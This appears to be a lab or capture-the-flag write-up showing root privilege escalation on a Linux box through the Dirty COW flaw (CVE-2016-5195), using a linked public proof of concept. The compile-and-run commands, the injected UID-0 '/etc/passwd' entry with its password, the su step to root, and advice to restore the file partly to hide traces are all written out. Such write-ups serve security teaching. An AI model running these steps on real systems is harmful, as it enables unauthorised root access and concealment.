 # Privilege Escalation via Dirty COW (CVE-2016-5195)

One effective method to escalate privileges to root on vulnerable Linux systems is by exploiting the well-known **Dirty COW** vulnerability — officially identified as [CVE-2016-5195](https://dirtycow.ninja/).

This vulnerability allows a local user to gain write access to read-only memory mappings, making it possible to modify files the user normally shouldn’t be able to — such as `/etc/passwd`.

In this case, we use a public proof-of-concept written in C, available here:
➡️ [https://github.com/firefart/dirtycow/blob/master/dirty.c](https://github.com/firefart/dirtycow/blob/master/dirty.c)

---

### Exploitation Steps

```bash
laurie@BornToSecHackMe:~$ cd /tmp
laurie@BornToSecHackMe:/tmp$ cat > dirty.c << EOF
[...] // C exploit code
EOF
laurie@BornToSecHackMe:/tmp$ gcc dirty.c -o dirty -pthread -lcrypt
laurie@BornToSecHackMe:/tmp$ ./dirty
```

The exploit will:

* Backup `/etc/passwd` to `/tmp/passwd.bak`
* Prompt for a new password
* Inject a new root-level user into `/etc/passwd`

Example output:

```
/etc/passwd successfully backed up to /tmp/passwd.bak  
Please enter the new password:  
Complete line:  
firefart:fi86Ixhn/lTi2:0:0:pwned:/root:/bin/bash  

Done! Check /etc/passwd to see if the new user was created.  
You can log in with the username 'firefart' and the password 'q'.

DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
```

---

### Gaining Root Access

Now that the new user has been created with UID 0 (root), we can switch to it using `su`:

```bash
laurie@BornToSecHackMe:/tmp$ su firefart
Password:
firefart@BornToSecHackMe:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
```

✅ We have successfully gained **root privileges**.

---

### Important: Cleanup

After exploitation, it is crucial to **restore the original `/etc/passwd` file** to avoid breaking the system or leaving obvious traces:

```bash
mv /tmp/passwd.bak /etc/passwd
```